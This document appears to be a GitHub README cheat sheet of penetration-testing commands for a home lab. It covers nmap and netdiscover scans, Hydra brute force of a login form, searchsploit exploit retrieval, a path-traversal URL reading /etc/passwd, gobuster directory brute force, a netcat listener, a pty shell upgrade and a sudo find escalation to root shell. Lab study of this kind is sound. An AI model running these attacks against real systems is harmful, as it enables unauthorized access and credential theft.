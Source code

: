 # Commands Reference

> **Permission reminder:** Only run these commands on systems and networks you own or have explicit permission to test.

---

## Scanning & help

```bash
nmap --help
```

*Show Nmap help / usage.*

```bash
nmap -sV 192.168.100.100
```

*Service/version detection scan against `192.168.100.100`.*

---

## Sockets / listening services

```bash
ss -nltp
```

*List listening TCP sockets with numeric addresses and process info.*

---

## Network discovery

```bash
netdiscover -i eth0 -r 192.168.56.0/24
```

*ARP sweep on `192.168.56.0/24` via interface `eth0`.*

---

## Wordlists & wordlist tools

```text
/usr/share/wordlists
```

*Common wordlists path (Debian/Kali/Parrot).*

```bash
unzip rockyou
```

*Unzip the `rockyou` archive (adjust filename/path as needed).*

---

## Brute-forcing (Hydra)

```bash
hydra -P ./sqlinject.txt -L ./sqlinject 192.168.100.20 http-post-form '/login.php:login=^USER^&senha=^PASS^:incorreto' -I
```

*Hydra HTTP POST brute force against `192.168.100.20`.*

```bash
hydra -P ./sqlinject.txt -L ./sqlinject localhost -s 9090 http-post-form '/login.php:login=^USER^&senha=^PASS^:incorreto' -I
```

*Same Hydra attack targeting `localhost` on port `9090`.*

---

## SSH tunnels / port forwarding

```bash
ssh -i ~/.ssh/reverse_id_ed25519 -L 127.0.0.1:9090:localhost:9000 ckp_06@192.168.56.109
```

*Local port forward: binds `127.0.0.1:9090` on your machine to `localhost:9000` on the remote after connecting.*

---

## Exploit / search tools

```bash
searchsploit OpenSSH
```

*Search local Exploit-DB mirror for `OpenSSH` entries.*

```bash
searchsploit -m linux/remote/45233.py
```

*Copy the exploit `linux/remote/45233.py` to the current directory.*

---

## Raw HTTP / netcat

```bash
printf "GET / HTTP/1.0\r\n\r\n" | nc -v 192.168.56.102 80
```

*Send a raw HTTP GET to `192.168.56.102:80` using netcat (verbose).*

---

## Web resources & example URLs

```text
https://portswigger.net/web-security
```

*PortSwigger Web Security Academy — reference/training material.*

```text
http://192.168.56.102/bWAPP/rlfi.php?language=../../../etc/passwd
```

*Example LFI/RLFI URL attempting to read `/etc/passwd`.*

---

## Web content discovery (gobuster)

```bash
gobuster dir -u 192.168.56.102 -w /usr/share/wordlists/dirb/big.txt
```

*Directory brute force against `192.168.56.102`.*

```bash
gobuster dir -u 192.168.56.102 -w /usr/share/wordlists/dirb/big.txt -x php,html,txt
```

*Same but try `php`, `html`, `txt` extensions.*

---

## Interactive / shell helpers

```bash
python3 -c "import pty;pty.spawn('bin/bash')"
```

*Spawn a pseudo-TTY shell (useful after getting a limited shell).*

---

## Listen to a port in your computer

```bash
nc -lnvp 1234
```

*Listen to the port 1234 in your computer*

---

## Privilege enumeration / escalation helpers

```bash
sudo -l
```

*List allowed `sudo` commands for the current user.*

```text
https://gtfobins.github.io/
```

*GTFOBins — collection of Unix binaries that can be abused for privilege escalation.*

```bash
# example with find:
sudo find . -exec /bin/sh \; -quit
```

*Example `find`-based escalation: runs `/bin/sh` via `sudo find` (only works if `find` allowed via sudo).*

---

## Notes

* Use these commands responsibly and legally.
* Consider adding `-v` or `-vv` to debug verbose output for tools like `ssh`, `nmap`, `hydra`, and `gobuster`.
* Adjust paths, interfaces, hosts and filenames for your environment.

---
